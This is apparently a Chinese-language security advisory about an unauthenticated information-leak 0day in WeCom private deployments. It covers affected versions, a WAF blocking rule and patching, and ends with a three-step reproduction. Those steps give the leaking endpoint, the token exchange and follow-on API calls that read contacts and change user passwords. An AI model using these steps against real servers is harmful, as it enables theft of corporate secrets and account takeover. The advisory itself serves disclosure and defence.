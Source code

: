 紧急通知，长亭报出企业微信存在信息泄露0day！目前已在准备预警，请注意！

企业微信URL/cgi-bin/gateway/agentinfo

接口未授权情况下可直接获取企业微信secret等敏感信息

受影响版本：2.5.x、2.6.930000、以下；

不受影响：2.7.x、2.8.x、2.9.x；

危害：

1、可导致企业微信全量数据被获取、文件获取，

2、存在使用企业微信轻应用对内发送钓鱼文件和链接等风险。

修复方法：

1、在waf上设置一个规则，匹配到/cgi-bin/gateway/agentinfo路径的进行阻断；

2、联系厂家进行获取修复包；

3、官方通报及补丁地址

复现及漏洞详情分析：

第一步：，通过泄露信息接口可以获取corpid和corpsecret

https://<企业微信域名>/cgi-bin/gateway/agentinfo

第二步，使用corpsecret和corpid获得token

https://<企业微信域名>/cgi-bin/gettoken?corpid=ID&corpsecret=SECRET

第三步，使用token访问诸如企业通讯录信息，修改用户密码，发送消息，云盘等接口

https://<企业微信域名>/cgi-bin/user/get?access_token=ACCESS_TOKEN&userid=USERID